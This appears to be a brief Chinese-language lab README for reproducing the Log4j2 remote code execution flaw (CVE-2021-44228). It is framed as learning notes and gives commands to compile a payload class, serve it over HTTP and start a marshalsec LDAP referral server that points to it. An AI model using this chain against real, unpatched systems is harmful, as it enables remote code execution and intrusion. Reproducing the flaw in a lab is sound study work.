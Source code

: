 ## Log4j2复现笔记，仅供学习
参考https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

### 创建可执行文件
```
com/example/template

javac Log4jRCE.java
```

### 启动Python自带的HTTP服务器
```
com/example/template
python -m http.server 8888
```

### 启动LDAP服务器
```
tools
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```

### 模拟注入攻击提交表单
```
com/example/hack/Hack.java
```
